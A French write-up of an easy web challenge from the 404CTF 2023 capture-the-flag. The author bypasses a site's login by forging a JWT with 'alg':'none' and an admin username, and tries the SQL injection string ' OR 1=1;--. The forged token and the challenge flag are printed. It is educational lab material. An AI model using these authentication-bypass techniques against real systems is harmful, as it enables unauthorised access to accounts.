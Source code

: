 ****
**Catégorie**: WEB - **Difficulté**: Facile 
# L'Académie du détail

****

***Synopsis*** :
  > Le nez plongé dans votre café noir, vous parcourez d'un rapide coup d'œil la une du journal fraichement paru. L'un des titres vous interpelle :
  
  >> ***Mars 1980 : L'opaque secret du nouveau membre de l'Académie Française.***
  
  >Vous parcourez alors le journal à la recherche de l'article en question. Il énonce :
  
  >>Après des heures de délibération, les Académiciens ont enfin voté pour le nouveau membre de la grande Académie Française. Mais pour des raisons que tout le monde ignore, son nom demeure secret depuis ce jour. Malgré tous leurs efforts, aucun journaliste n'a réussi a obtenir le moindre indice ou la moindre image.
  
  > Interloqué, vous vous rendez compte que l'Académie Française possède un site web. Peut être que la réponse est finalement à portée de tous, voir même plus ... !

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/chall.png">
</p>


****

## Home Page 

L'arrivée sur le site agite la réflexion d'un noob comme moi, on y retrouve :

- une série de "mots préférés" mis en avant sur la page (un mot de passe dissimulé ?)
- un caroussel (un indice ou un mot de passe caché ?)
- un lien login (peut-être une faille SQLi)
- je ne trouve rien dans le code source

Bref, plus de questions que de réponses, je décide donc de naviguer sur le site et de relire les règles avant de me précipiter. 

> Ça tombe bien, la majorité des choses que j'ai appris sont interdites, y a plus qu'a trouver autre chose.

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Home page" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/home.png">
</p>


****

## Fake Flag

Je décide tout de même de tenter l'url /flag (après tout, sait-on jamais) et la **FLAG** ah bah non c'est pas ça : 
***202CTF{Bien_tenté_mais_c'est_pas_ça}***

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Fake Flag" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/fakeFlag.png">
</p>

****

## Login

Je me dirige donc vers la page login, qui révèle sans surprise un formulaire de connexion et tente :

 - le traditionnel admin sans mot de passe qui me révèle *"Données incomplètes"*
 - Je tente donc un mot de passe "*1234*" pour voir si le user admin existe, ce qui me révèle *"Mot de passe incorrect"*, j'en déduit donc que le user *admin* existe.
 - le traditionnel ' OR 1=1;-- pour me connecter mais en vain. (enfin pas tout à fait car *je suis maintenant connecté en tant que OR11*)

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Home page Identifiée en tant que OR11" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/OR11.png">
</p>

****
## Page Membres

Surpris d'être identifié, je décide d'aller voir la page "*Liste des membres*" qui est apparue dans le menu, mais ce ne sera pas si simple, il faut que j'arrive à être admin.

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Patience" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/patience.png">
</p>

Après avoir fait des recherches sur la personne ayant rejoint l'académie à cette date, je tente de flag le prénom_nom de la personne (Marguerite Yourcenar) avec plein de formats différents mais rien ne flag. (Ils ont bien du rire derrière)

***Il faut que je sois admin.***

****
## Cookies

Je suis identifié, il y a probablement un cookie, go voir les cookies dans mon navigateur. 

Ok j'ai bien un cookie access-token et une valeur séparée de 3 ".", je teste donc de prendre les valeurs séparées et de les décoder de la base64. 

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Token Initial" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/tokenInit.png">
</p>

C'est parti sur le bash :

**Partie 1/3** :

```bash
cr4sh@exemple:~$ echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9" | base64 --decode

{"alg":"HS256","typ":"JWT"}
```

Ok, c'est donc un Json Web Token (JWT) en HMAC SHA-256 (HS256). 

Je vais sur la doc de JWT afin de voir un peu comment il se décompose : *Header*.*Payload*.*Signature*

**Partie 2/3 - Payload** :

```bash
cr4sh@exemple:~$ echo "eyJ1c2VybmFtZSI6Ik9SMTEiLCJleHAiOjE2ODYzODY3NjB9" | base64 -d

{"username":"OR11","exp":1686386760}
```
> Pour les neophytes, ici -d équivaut à --decode présenter avant

J'ai donc mon username *OR11* et la date d'expiration du token (en timestamp)

## Partie 3 - Signature

Je me renseigne donc sur la manière de péter une clef de vérification (clef secrète ici en 256bits) mais je n'ai clairement pas les ressources ici, il va donc falloir que je trouve une autre solution.

Le JWT est effectivement signé mais est-ce que la signature est vérifiée? 

Je teste de modifier le payload en passant ***username*** à ***admin***.

```bash
cr4sh@exemple:~$ echo -n '{"username":"admin","exp":1686386760}' | base64

eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjg2Mzg2NzYwfQ==
```
Une fois converti en base64, je modifie le payload dans mon navigateur (la partie du milieu) en pensant à retirer les "==" de fin , malheureusement la signature m'empêche de valider le jwt et je suis deconnecté. 

Je cherche donc sur la toile et trouve un site m'indiquant que dans le cas où la signature du token n'est pas vérifiée côté serveur, je pouvais tenter un "alg":"none" sans signature après le point suivant le payload sous le format *Header.Payload.*

On a déja modifié le payload, mais mon header est toujours sous algorythme HS256. Je décide d'essayer de me passer de l'algorythme en passant l'algorythme à none.

```bash
cr4sh@exemple:~$ echo -n '{"alg":"none","typ":"JWT"}' | base64

eyJhbGciOiJub25lIiwgInR5cCI6IkpXVCJ9
```

Je modifie donc maintenant mon cookie avec mon HeaderModifié.PayloadModifié.RienPourLaSignature

> eyJhbGciOiJub25lIiwgInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjg2Mzg2NzYwfQ.

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Token modifié" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/tokenModifie.png">
</p>

Puis retente d'accéder au contenu de la page liste membre, en étant, du fait de la modification, **admin**.

J'ai désormais bien le nom de la personne que j'avais trouvé précédemment "*Marguerite Yourcenar*" avec le flag. 

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Flag" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/flag.png">
</p>

<details>
<summary>Voir le flag :</summary>
FLAG : 404CTF{JWT_M41_1MP13M3N73_=L35_Pr0813M35}
</details>

****
**Notes** :
On entends bien souvent que JWT est inviolable et que c'est le graal de la sécurité. 

Attention cependant, comme tout outil, si la vérification n'est pas faite ou pas de la bonne manière, il est de fait possible de l'outrepasser.

Ce chall m'a également permis de découvrir l'outil CyberChef qui devrait se révéler très utile à l'avenir

****
**404CTF 2023** - *Cr4Sh*
****
